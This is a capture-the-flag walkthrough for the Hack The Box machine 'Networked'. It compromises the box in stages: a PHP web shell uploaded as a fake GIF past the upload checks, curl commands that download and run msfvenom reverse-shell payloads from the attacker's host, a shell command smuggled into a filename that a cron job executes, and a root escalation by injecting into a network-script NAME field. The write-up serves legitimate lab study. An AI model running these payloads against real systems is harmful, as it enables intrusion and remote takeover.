# [Networked](https://app.hackthebox.eu/machines/203)

Start off with `nmap`

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.146 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS --script "default,safe" -p $tcpports -oA tcp --open -Pn -sV 10.10.10.146 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.146
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.146
```

The quick TCP scan returns the following:



Start the following web scanners (using `-x php` with `gobuster` since the backend is PHP):

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# start scanners
nikto -h http://10.10.10.146/ --maxtime=120s --output=nikto.txt
gobuster dir -t 100 -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\
  -u http://10.10.10.146/ &
```

Browse to the website manually:



Nothing exciting here. The HTML source does have an interesting comment:



Looks like there is a way to upload files. The output from `gobuster` confirms this:



Browsing to `/upload.php` gives the following:



Try uploading a file and browsing for it at `/uploads`:

- https://runningmagazine.ca/wp-content/uploads/2019/07/Screen-Shot-2019-07-07-at-4.03.41-PM.png

However, for this image, an error is given: `Invalid image file`? Maybe there is some sort of file extension/format checking? Browsing to `/photos.php` shows some more interesting info:



Viewing the source for this HTML page shows the following links:



These images are from after re-uploading one of the CentOS banner images already there (That is the `10_10_14_17.png`). Why did the first PNG not work? It also seems that files are uploaded to a file with a name including the remote IP of the client. Looking at `/backup` shows an interesting file:



Downloading and extracting `backup.tar` shows the following:

```bash
wget http://10.10.10.146/backup/backup.tar
tar -xvf backup.tar
```



With the website's source code, look at `upload.php` to understand the uploading process:

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

It looks like the POST to `/upload.php` needs to pass the following in order for the upload to proceed:

- `check_file_type($_FILES["myFile"])` returns `true`
- `filesize($_FILES['myFile']['tmp_name']) < 60000)`
  - This is why the first PNG upload failed
- `getnameUpload($myFile["name"])` returns a file extension in `array('.jpg', '.png', '.gif', '.jpeg')`

The top of the PHP file includes `lib.php`, which contains helper functions. The first to bypass is `check_file_type`:

```php
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }
}
```

This just calls the PHP function `mime_content_type` and checks that the MIME type string returned begins with `image/`:

- https://www.php.net/manual/en/function.mime-content-type.php

This function can be bypassed by using valid file magic signatures for an image:

- https://en.wikipedia.org/wiki/List_of_file_signatures

Next is `filesize`, which is also a PHP function that returns the file's size in bytes. The web shell just needs to be less than ~60KiB.

- https://www.php.net/manual/en/function.filesize.php

Next is `getnameUpload`, which contains the following code in `lib.php`:

```php
function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}
```

This code just takes the user supplied file name and splits it by the `.` delimiter. Then the code returns a modified filename with `_` replaced with `.` and a string containing the rest of the file's extensions combined. Meaning `file.php.gif` will be split  into `file` and `php.gif`. Next is `substr_compare` which just makes sure that the file ends in one of the extensions in `array('.jpg', '.png', '.gif', '.jpeg')`. 

- https://book.hacktricks.xyz/pentesting-web/file-upload
- https://www.hackingarticles.in/comprehensive-guide-on-unrestricted-file-upload/

To abuse this upload vulnerability, the following HTML source is needed:



This process can be abused with the following Python to get a web shell:

```python
import io
import requests

PHP = """
<?php
if (isset($_REQUEST['c'])) {
  if (class_exists('ReflectionFunction')) {
    $f = new ReflectionFunction('system');
    $f->invoke($_REQUEST['c']);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($_REQUEST['c']));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system',$_REQUEST['c']);
  } elseif (function_exists('system')){
    system($_REQUEST['c']);
  }
}
?>
"""

# upload shell
r = requests.post('http://10.10.10.146/upload.php', data={
  'submit': 'ignored',
}, files={
  'myFile': (
    'ignored.php.gif',
    io.StringIO('GIF89a' + PHP),
    'image/gif',
  )
})
print(r.text)
```

This Python will upload a web shell that will pass MIME type checks using the file signature `GIF87a` for  GIF file. This signature is used since its magic bytes are all ASCII. The backgorund for this vulnerability is based on Apache's multiple file extension interpretation feature:

- https://httpd.apache.org/docs/2.4/mod/mod_mime.html#multipleext

Running this script and testing if it works gives a valid web shell:

```bash
# above Python saved as exploit.py
python3 exploit.py
# test if shell is working
curl -s -G http://10.10.10.146/uploads/10_10_14_17.php.gif --data-urlencode 'c=whoami'
```



Now use this web shell to get a more dedicated shell on the target:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 6969
# check for a valid web fetcher on the target
curl -s -G http://10.10.10.146/uploads/10_10_14_17.php.gif \
  --data-urlencode 'c=which wget || which curl'
# send the command to download and execute the payload
curl -s -G http://10.10.10.146/uploads/10_10_14_17.php.gif \
  --data-urlencode 'c=curl -s -o /tmp/bubba.elf http://10.10.14.17:8080/bubba.elf && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &'
```



Nice! That is a valid shell but does not give `user.txt`. Now to enumerate the target... Looking for interesting user files shows some likely winners:

```bash
ls -ahlR /home/
```



The `crontab.guly` file has the following info:

```
*/3 * * * * php /home/guly/check_attack.php
```

Which means [_run the script `check_attack.php` as the user `php` every 3rd minute_](https://crontab.guru/#*/3_*_*_*_*). The script `check_attack.php` has the following content:

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
?>
```

Looking at this script, there is a command injection vulnerability. The script lists all files in the `/var/www/html/uploads/` directory and executes the following command with each filename as `$value`:

```bash
nohup /bin/rm -f /var/www/html/uploads/$value > /dev/null 2>&1 &
```

As long as the filename does not pass the check from the function `check_ip`, then the filename will be directly inserted into the command and executed. The function `check_ip` is defined in `lib.php` as follows:

```php
function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}
```

So, if the filename does not match the `FILTER_VALIDATE_IP` filter, then the function returns `false`! This can be tested as a command injection vulnerability with the following commands. If the injection works, then `bubba.test` should be created somewhere on the system:

```bash
# create the filename to try and execute the following command:
# nohup /bin/rm -f /var/www/html/uploads/69; touch bubba.test #.txt > /dev/null 2>&1 &
touch '/var/www/html/uploads/69; touch bubba.test #.txt'
# check if it worked
find / -iname bubba.test 2>/dev/null
```



Nice! it looks like the cron job is running and as the user `guly` since `bubba.test` was created with those permissions. To get a shell as `guly`, upload a new reverse shell payload and execute it using the command injection vulnerability. One trick to note is that creating a filename that contains a `/` is forbidden in Linux. Getting around this can be done using the `base64` Linux utility and piping the output to `/bin/sh`:

- **NOTE:** Another option is to use the system `nc` to get a reverse shell since, after more enumeration, it supports the `-e` option to execute a binary upon connection. However, this kind of `nc` is uncommon to find, so using `base64` is a more portable method.

```bash
# on kali, make a new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=7777 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.guly.elf
# on kali, host the payload on port 8080
python3 -m http.server 8080
# on kali, wait for the callback
nc -nvlp 7777
# on target, delete test payload
rm '/var/www/html/uploads/69; touch bubba.test #.txt'
# on target, generate payload string
echo 'curl -s -o /tmp/bubba.guly.elf http://10.10.14.17:8080/bubba.guly.elf && chmod +x /tmp/bubba.guly.elf && /tmp/bubba.guly.elf' | base64
# on target, trigger command injection vulnerability 
# NOTE: replace <payload> with base64 output from previous command
touch '/var/www/html/uploads/69; echo "<payload>" | base64 -d - | sh #.txt'
```

And after waiting for a few, this gives a new shell with `user.txt`:



After further enumeration as this new user, there are some interesting `sudo` permissions for the user `guly`:

```bash
sudo -l
```



The contents of `changename.sh` are as follows:

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

The script itself is pretty locked down:

- `#!/bin/bash -p` prevents execution of `ENV` and `BASH_ENV` environment variables (`.bashrc`, `.profile`, and so on)
- The `regexp` prevents any possible command injection characters: `;{}()$#`
- The `while` condition prevents abuse of unsanitized user input for the variable `x` by using `[[]]` over `[]`
- Reference: https://developer.apple.com/library/archive/documentation/OpenSource/Conceptual/ShellScripting/ShellScriptSecurity/ShellScriptSecurity.html

There must be a vulnerability here that allows for command execution. Googling for `privilege escalation network scripts` brings up the following:

- https://bugzilla.redhat.com/show_bug.cgi?id=1697473

The reference describes the following bug:

> With write permissions on the folder /etc/syconfig/network-scripts an authenticated user can execute code on the local machine to gain root access by abusing this vulnerability in NetworkManager. Network Manager is not filtering the NAME attribute in network-scripts which follows in code execution as root user.

The disclosure also references the following for a PoC:

- https://seclists.org/fulldisclosure/2019/Apr/24

According to these links, it should be possible to inject commands into the `NAME` field with a space. Test it out with the following:

```bash
# on target, in user guly shell
sudo -u root /usr/local/sbin/changename.sh
# input for script:
test touch /bubba-root-test
blah
blah
blah
```



Nice! the PoC worked. Now generate a new shell, host it, and have the target download and execute it as `root`:

````bash
# on kali, make a new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=9999 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.root.elf
# on kali, host payload
python3 -m http.server 8080
# on kali, listen for callback
nc -nvlp 9999
# on target, in user guly shell, download new payload & make it executable
curl -s -o /tmp/bubba-root-elf http://10.10.14.17:8080/bubba.root.elf
chmod +x /tmp/bubba-root-elf
# on target, in user guly shell, trigger payload (will bypass regex filter in changename.sh)
sudo -u root /usr/local/sbin/changename.sh
# input for script:
test /tmp/bubba-root-elf
blah
blah
blah
````

And that gives `root.txt`:



